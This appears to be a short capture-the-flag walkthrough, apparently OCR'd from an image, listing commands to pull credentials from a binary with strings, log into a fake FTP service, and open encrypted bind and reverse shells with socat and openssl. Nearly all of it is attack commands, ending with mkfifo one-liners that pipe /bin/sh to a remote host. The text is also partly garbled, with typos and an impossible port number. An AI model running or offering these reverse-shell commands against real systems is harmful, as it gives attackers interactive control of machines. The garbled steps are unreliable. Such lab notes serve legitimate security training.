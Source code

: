     chmod +x Xcapture
    strings Xcapture
    find user namd and password and type
    
    #On terminal type : 
    telnet target.com 43159
    
    #[ and paste this ]#:
    220 Fake Transfer Protocol (FTP) Service
    USER Xusername
    PASS XpasswordFound1234512345
    HELP
    SYST
    FLAG
    HELP
    QUIT
    {FLAG}


#### Encrypted Bind Shell :
    
    Your ip address : 5.5.5.5
    target.com + port ( 55441 )
    1 : connect to target with port 55441
    2 : connect from target to your ip
    
    $Terminal 1 (Linux) : 
      socat -d -d -d -d - OPENSSL:target.com:55441,cert=ogkey.pem,verify=0
          - find successfully connected from local address AF=2 5.5.5.5:91191 <-- use this port from target
    
    $Terminal 1 (target) : 
      socat -d -d -d -d OPENSSL:5.5.5.5:91191,verify=0 EXEC:/bin/rbash
    $Terminal 2 (target) :
      socat -d -d -d -d OPENSSL-LISTEN:1337,cert=ogkey.pem,verify=0 EXEC:/bin/rbash
    {XLAG}
      
      
#### Encrypted Reverse Shell : 

    A=attacker , T=target
    1 - $Terminal 1 (Linux) : openssl req -newkey rsa:2048 -nodes -keyout ogkey.key -x509 -days 1000 -subj '/CN=www.target.com/O=PTAP./C=IN' -out ogkey.crt
    2 - $Terminal 1 (Linux) : cat ogkey.key ogkey.crt > ogkey.pem
    3 - $Terminal 1 (Linux) : socat -d -d -d -d openssl-listen:1337,cert=ogkey.pem,verify=0,fork STDOUT
    4 - $Terminal 1 (target) : ./encrypted-reverse-shell 5.5.5.5 1337
    5 - $Terminal 1 (Linux) : ls -la
    6 - $Terminal 1 (Linux) : cat Xlat.txt
    {XLAG}
      
      
      
      
#### Garbag : 

    mkfifo /tmp/s; bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect target.com:50630 > /tmp/s; rm /tmp/s
    mkfifo /tmp/s; bin/sh -i < /tmp/s 2>&1 | socat -d -d OPENSSL:target.com:50630,verify=0,fork EXEC:/bin/rbash > /tmp/s; rm /tmp/s
    